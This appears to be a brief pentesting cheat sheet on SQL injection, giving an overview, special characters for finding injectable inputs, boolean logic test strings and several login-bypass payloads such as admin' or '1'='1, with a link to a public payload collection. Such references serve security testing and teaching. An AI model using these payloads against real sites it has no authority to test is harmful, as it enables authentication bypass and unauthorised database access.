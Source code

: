 # Sql Injection

## Overview

SQL Injection58 is a common web vulnerability found in dynamic sites that is caused by unsanitized user input, which is then passed on to a database.  This user input can then be manipulated to “break out” of the original query made by the developers, to include more malicious actions.

## Discovery/Entry point Detection

Good payload to for discovery is :

    '
    "
    ;
    )
    *
    --

Logic Testing

    1 or 1=1 --  filler
    1' or 1=1 -- '
    1" or 1=1 -- '
    1 and 1=2 -- false

## Auth Bypass Payloads

    admin' or '1'='1
    admin')-- -
    admin') OR 1=1 -- '


## More Information

https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection